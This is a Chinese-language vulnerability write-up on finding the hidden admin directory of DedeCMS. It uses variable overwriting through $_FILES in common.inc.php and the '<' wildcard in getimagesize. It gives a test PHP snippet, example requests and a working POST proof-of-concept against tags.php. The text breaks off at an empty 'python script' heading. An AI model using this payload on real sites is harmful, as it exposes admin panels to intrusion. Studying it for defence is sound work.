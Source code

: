 注意\$\$\_key这一句，变量\$key取自于\$\_FILE，由于\$*FILE可控自然\$key也可控,此处理论上是可以覆盖任意变量，但是前面有个正则判断不能出现cfg*\|GLOBALS。(但是应该还可以覆盖其他变量此处感觉还可以深挖)

本人出发点是找个可以利用\<\<通配符猜解后台目录，所以只要\$\$\_key参数可控就可以达到目的。

但在这之前有个if(!defined(\'DEDEADMIN\'))的判断,这个很好绕过设置tmp\_name为0或者1.jpg含.
就可以绕过。

最后关键的一点就是要让文件存在还和不存在返回不同的内容就要控制type参数了。

当目录文件存在的时候 返回正常页面。当不存在的时候返回：Upload filetype
not allow !

举个例子

    <?php
    // ./dedecms/favicon.ico
    if(@getimagesize($_GET['poc'])){
        echo 1;
    }else {
        echo 0;
    }
    ?>
    get:
    http://localhost/test.php?poc=./d</favicon.ico
    返回：1

    http://localhost/test.php?poc=./a</favicon.ico
    返回：0

    http://localhost/test.php?poc=./de</favicon.ico
    返回：1

    http://localhost/test.php?poc=./ded</favicon.ico
    返回：1

    ........

### 复现

构造poc

    http://0-sec.org/tags.php

    post:

    dopost=save&_FILES[b4dboy][tmp_name]=./de</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif

Common.inc.php
是被全局包含的文件，只要文件php文件包含了Common.inc.php都可以进行测试，以tags.php文件为例

当目录存在点时候

![](/Users/aresx/Documents/VulWiki/.resource/Dedecms找后台/media/rId26.png)

当目录不存在点时候

### python脚本
